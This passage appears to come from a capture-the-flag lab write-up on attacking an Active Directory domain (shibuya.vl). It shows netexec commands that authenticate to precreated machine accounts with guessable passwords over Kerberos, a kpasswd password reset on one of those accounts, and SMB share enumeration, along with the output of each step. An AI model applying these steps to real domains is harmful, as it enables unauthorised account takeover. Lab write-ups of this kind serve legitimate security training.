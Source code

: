 ## Access on precreated machine accounts
Found 2 valid username, at this point we can try for ASREPRoast or Password spraying, I tried both, even with a 5000-line custom wordlist and user=pass pattern. So I stuck here for about 2 days then I asked xct for nudge on this. He said they are precreated computer accounts and this is very common in AD and the reason why I didn't get it is because I didn't add the *$* sign at the end of those two accounts, and also he said on kerberos authentication, the *$* will not matter and that is also the reason why kerbrute fetched these two without *$*.

We can see in the below output, with normal NTLM authentication we got **STATUS_NOLOGON_WORKSTATION_TRUST_ACCOUNT**, this is because *red$* is a precreated machine account which require us to change its password on the first time using it and with the Kerberos authentication, we hit it easily.
```
nxc smb awsjpdc0522.shibuya.vl -u 'red$' -p 'red'                  
SMB         10.10.80.206    445    AWSJPDC0522      [*] Windows Server 2022 Build 20348 x64 (name:AWSJPDC0522) (domain:shibuya.vl) (signing:True) (SMBv1:False)
SMB         10.10.80.206    445    AWSJPDC0522      [-] shibuya.vl\red$:red STATUS_NOLOGON_WORKSTATION_TRUST_ACCOUNT 

 ╭─dwgth4i@kali in ~/tools took 4s
 ╰─λ nxc smb awsjpdc0522.shibuya.vl -u 'red' -p 'red' -k
SMB         awsjpdc0522.shibuya.vl 445    AWSJPDC0522      [*] Windows Server 2022 Build 20348 x64 (name:AWSJPDC0522) (domain:shibuya.vl) (signing:True) (SMBv1:False)
SMB         awsjpdc0522.shibuya.vl 445    AWSJPDC0522      [+] shibuya.vl\red:red
```
So at this point we can change the password for *red$* and ready to go, because I got no luck with RPC and SMB so I use **kpasswd** to change the password (using this require us to setup the realm in /etc/krb5.conf).
```
[libdefaults]
        default_realm = SHIBUYA.VL

<SNIP>

[realms]
        SHIBUYA.VL = {
                kdc = awsjpdc0522.shibuya.vl
                admin_server = awsjpdc0522.shibuya.vl
                default_domain = shibuya.vl
        }
<SNIP>
```
Then we can use kpasswd.
```
kpasswd red$   
Password for red$@SHIBUYA.VL: 
Enter new password: 
Enter it again: 
Password changed.
```

## RPC
Next, with a valid domain computer account, I enumerating the shares on the SMB and got:
```
nxc smb awsjpdc0522.shibuya.vl -u 'red$' -p 'test' --shares
SMB         10.10.80.206    445    AWSJPDC0522      [*] Windows Server 2022 Build 20348 x64 (name:AWSJPDC0522) (domain:shibuya.vl) (signing:True) (SMBv1:False)
SMB         10.10.80.206    445    AWSJPDC0522      [+] shibuya.vl\red$:test 
SMB         10.10.80.206    445    AWSJPDC0522      [*] Enumerated shares
SMB         10.10.80.206    445    AWSJPDC0522      Share           Permissions     Remark
SMB         10.10.80.206    445    AWSJPDC0522      -----           -----------     ------
SMB         10.10.80.206    445    AWSJPDC0522      ADMIN$                          Remote Admin
SMB         10.10.80.206    445    AWSJPDC0522      C$                              Default share
SMB         10.10.80.206    445    AWSJPDC0522      images$                         
SMB         10.10.80.206    445    AWSJPDC0522      IPC$            READ            Remote IPC
```